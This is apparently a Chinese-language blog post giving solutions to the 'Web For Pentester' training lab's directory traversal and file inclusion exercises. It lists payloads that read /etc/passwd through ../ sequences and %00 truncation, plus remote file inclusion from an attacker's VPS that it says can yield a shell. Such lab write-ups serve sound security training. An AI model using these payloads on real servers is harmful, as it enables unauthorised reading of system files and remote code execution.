 ```yaml
---
layout:     post
title:      "Web For Pentester - Directory traversal & File Include Part Tips"
subtitle:   "Training exercises"
date:       2016-11-01
author:     "Urahara"
header-img: "img/202cb962ac59075b964b07152d234b70.jpg"
header-mask: 0.3
tags:
    - 渗透测试
    - Training exercises



---
```




## Directory traversal Part 

### Example 1

最基础的目录穿越造成的任意文件读取，这里为相对路径，通过“../”可进行目录跳转

**file=/../../../../../../../../etc/passwd**

### Example 2

路径显示为网站物理路径，直接改为/etc/passwd不成功，通过../进行目录穿越

**file=/var/www/files/../../../etc/passwd**

### Example 3

这里可以看出文件名后缀被写死到了程序当中，使用%00进行截断

**file=../../../../../../../../../etc/passwd%00**

## File Include Part

### Example 1

使用单引号报错可以看到程序抛出了异常，这里爆出了网站物理路径，并在程序中使用include()函数，当然可以使用目录穿越去包含本地/etc/passwd文件，也可以使用远程文件包含去getshell

**page=/../../../../../../../../etc/passwd**

**page=http://vps地址/phpinfo.txt**

### Example 2

与Directory traversal Part中的Example 3类似，通过%00去截断

**page=/../../../../../../../../etc/passwd%00**

**page=http://vps地址/phpinfo.txt%00**

